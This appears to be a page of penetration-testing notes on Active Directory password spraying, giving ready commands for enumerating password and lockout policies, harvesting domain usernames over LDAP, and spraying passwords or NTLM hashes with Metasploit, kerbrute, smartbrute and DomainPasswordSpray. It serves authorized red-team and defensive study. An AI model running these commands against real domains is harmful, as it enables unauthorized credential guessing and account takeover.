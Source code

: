 # Password Spraying




## Password Policy

Enumerate password policy in the domain:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' --pass-pol
Cmd > net accounts /domain
PS > Get-ADDefaultDomainPasswordPolicy
PV3 > Get-DomainPolicyData | select -ExpandProperty SystemAccess
```

Example of `net accounts` output:

| Name (EN)                              | Name (RU)                                 | Value |
|----------------------------------------|-------------------------------------------|-------|
| Minimum password age (days):           | Минимальный срок действия пароля (дней):  | 1     |
| Maximum password age (days):           | Максимальный срок действия пароля (дней): | 90    |
| Minimum password length:               | Минимальная длина пароля:                 | 10    |
| Length of password history maintained: | Хранение неповторяющихся паролей:         | 24    |
| Lockout threshold:                     | Блокировка после ошибок ввода пароля:     | 7     |
| Lockout duration (minutes):            | Длительность блокировки (минут):          | 30    |
| Lockout observation window (minutes):  | Сброс счетчика блокировок через (минут):  | 30    |



### Fine-Grained Password Policies

- [https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/](https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/)
- [https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/](https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/)

Map FGPPs to the users they're being applied to (need admin privileges by default):

```powershell
ForEach ($fgpp in (Get-ADFineGrainedPasswordPolicy -Filter * -Properties Description)) {
    $appliesTo = $fgpp | select -ExpandProperty AppliesTo
    $objectClass = (Get-ADObject $appliesTo).ObjectClass

    Write-Host -ForegroundColor Yellow "`r`nFine Grained Password Policy: $fgpp.name"
    $fgpp | Out-Host

    If ($objectClass -eq "group") {
        Get-ADGroupMember $appliesTo -Recursive | ? {$_.objectClass -eq "user"} | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
    ElseIf ($objectClass -eq "user") {
        Get-ADUser $appliesTo | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
}
```

{% hint style="info" %}
When it's critical not to cause a lockout on a user account with a FGPP applied, the safest approach would be to exclude users with `msDS-PSOApplied` or `msDS-ResultantPSO` properties populated (can be read by a regular user) from the spray list.

Check if exists:

```
PS > Get-ADUser snovvcrash -Properties * | select msDS-PSOApplied
PS > Get-ADUser snovvcrash -Properties msDS-ResultantPSO | select msDS-ResultantPSO
```
{% endhint %}




## Get Domain Users



### Non-Authenticated

{% content-ref url="/pentest/infrastructure/ad/rid-cycling.md" %}
[rid-cycling.md](rid-cycling.md)
{% endcontent-ref %}

If SMB null sessions are allowed on the DC, an adversary can get a list of all domain users via **RID Cycling**.



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/logs/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/logs/windapsearch.out
$ cat ~/ws/logs/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/logs/windapsearch.out
$ cat ~/ws/logs/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox -e '\$$' | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users-active.txt
```




## MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```




## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)
* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute userenum -d megacorp.local -o ~/ws/logs/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/logs/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/logs/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/logs/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```




## pyKerbrute

- [https://github.com/3gstudent/pyKerbrute](https://github.com/3gstudent/pyKerbrute)

```
$ python2 ADPwdSpray.py 192.168.1.11 megacorp.local users.txt ntlmhash fc525c9683e8fe067095ba2ddc971889 udp
```




## smartbrute

- [https://github.com/ShutdownRepo/smartbrute](https://github.com/ShutdownRepo/smartbrute)

Spray single hash against a list of users:

```
$ smartbrute -v brute --delay 100 --no-enumeration -bU users.txt -bh <HASH_TO_SPRAY> kerberos -d megacorp.local --kdc-ip 192.168.1.11
```

Get domain password policy and active users:

```
$ smartbrute -v smart {--policy|--users} ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11
```

Launch smart password spray with a hash:

```
$ smartbrute -v smart --delay 100 -bh <HASH_TO_SPRAY> ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11 kerberos
```




## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
